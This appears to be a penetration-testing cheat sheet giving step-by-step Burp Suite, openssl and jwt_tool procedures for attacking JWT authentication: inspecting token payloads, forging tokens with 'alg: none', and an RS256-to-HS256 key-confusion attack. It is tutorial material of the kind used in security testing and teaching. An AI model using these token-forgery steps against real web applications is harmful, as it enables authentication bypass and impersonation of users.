 1. **Check for sensitive data in the JWT**

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Switch to JSON Web Token Tab 
4. Check if any user info or any sensitive info is there in payload section.
5. Done!
```

1. ****None algorithm****

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Switch to JSON Web Token Tab or JOSEPH which also contains bypass
4. Change "alg:" to none "alg:none"  
		{
		  "alg": "none",
		  "typ": "JWT"
		}
5. Change the Payload and edit the signature to empty
		Signature = ""
6. Forward the Request. Done!

Using JWT_Tool.
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Use Below command to get different bypass payload to try , replace <JWT> with your JWT token.
		"python3 jwt_tool.py <JWT> -X a"
4. Use Different Payloads Generated by tool in your request, see if any of it works.
5. Change you Payload value to desire with the token that worked and Done!
```

1. ****Change algorithm from RS256 to HS256****

```python
Note: This Attack will convert the workflow from Asymmetric to Symmetric encryption and now we can sign the new tokens with the same public key.

1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Get the Public key from the Application (pubkey.pem file) using below commands.
		"openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem"
		"openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem"
																OR
		"openssl s_client -connect zonksec.com:443 | openssl x509 -pubkey -noout"
4. Then use below command to generate JWT token.
		"python3 jwt_tool.py <JWT> -S hs256 -k pubkey.pem"
5. Use the generated token in the request and try changing payload.
6. Done, Forward the request.

* This will work when web app support both algorithm.
```
